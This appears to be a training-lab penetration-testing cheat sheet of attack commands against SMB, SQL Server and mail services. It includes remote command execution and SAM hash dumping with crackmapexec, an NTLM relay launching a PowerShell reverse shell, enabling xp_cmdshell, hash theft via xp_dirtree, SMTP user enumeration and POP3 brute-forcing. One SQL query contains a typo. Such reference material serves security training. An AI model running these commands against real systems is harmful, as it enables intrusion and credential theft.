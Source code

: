 ### Attacking SMB

Network share enumeration using smbmap
- `smbmap -H 10.129.14.128`

Null-session with rpcclient
- `rpcclient -U'%' 10.10.110.17`

Execute command over SMB using crackmapexec
- `crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec`

Extract hashes from SAM database
- `crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam`

Dump SAM database using impacket-ntlmrelayx
- `impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146`

Execute PowerShell reverse shell using impacket-ntlmrelayx
- `impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e <base64 reverse shell>'`
### Attacking SQL

Enable xp_cmdshell in SQL Server
```sql
EXECUTE sp_configure 'show advanced options', 1
EXECUTE sp_configure 'xp_cmdshell', 1
RECONFIGURE
xp_cmdshell 'whoami'
```

Steal NTLM hashes using xp_dirtree
- `EXEC master..xp_dirtree '\\10.10.110.17\share\'`

Steal NTLM hashes using xp_subdirs
- `EXEC master..xp_subdirs '\\10.10.110.17\share\'`

Identify SQL Server user and privileges
- `EXECUTE('select @@servername, @@version, system_user, is_srvrolemender(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]`
### Attacking Email Services

DNS lookup for mail servers
- `host -t MX microsoft.com`
- `dig mx inlanefreight.com | grep "MX" | grep -v ";"`

DNS lookup for mail server IP
- `host -t A mail1.inlanefreight.htb.`

Connect to SMTP server
- `telnet 10.10.110.20 25`

SMTP user enumeration with RCPT
- `smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7`

Brute-force POP3 service
- `hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3`

